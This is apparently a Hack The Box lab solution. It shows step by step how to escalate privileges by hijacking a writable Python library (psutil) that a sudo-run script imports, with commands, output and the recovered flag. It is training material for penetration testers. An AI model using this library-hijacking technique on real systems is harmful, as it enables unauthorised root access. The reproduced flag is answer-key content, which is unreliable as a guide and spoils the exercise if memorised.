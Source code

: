 Discovering that the `mem_status.py` script can be run with elevated privileges, students need to take advantage of library hijacking. Students need to identify their permissions on the `psutil` library, which contains the `virtual_memory` function:

Code: shell

```shell
grep -r "def virtual_memory*" /usr/
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

```
htb-student@ubuntu:~$ grep -r "def virtual_memory*" /usr/

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():

htb-student@ubuntu:~$ ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--r-- 1 htb-student staff 87657 Jun  8 09:21 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

Students need to open `/usr/local/lib/python3.8/dist-packages/psutil/__init__.py` with vim:

Code: shell

```shell
vim /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

Then, students need to modify the `virtual_memory` function, using `os.system` to read the flag:

Code: python

```python
    import os
    os.system('cat /root/flag.txt')
```

![[HTB Solutions/CPTS/z. images/478109704496a3f586a82ba3a5320f2a_MD5.jpg]]

Saving the changes, students need to run the `mem_status.py` script using sudo. The script successfully displays the flag, `HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}`:

Code: shell

```shell
sudo /usr/bin/python3 /home/htb-student/mem_status.py
```

```
htb-student@ubuntu:~$ sudo /usr/bin/python3 /home/htb-student/mem_status.py 

HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}
HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}
Available memory: 87.34%
```

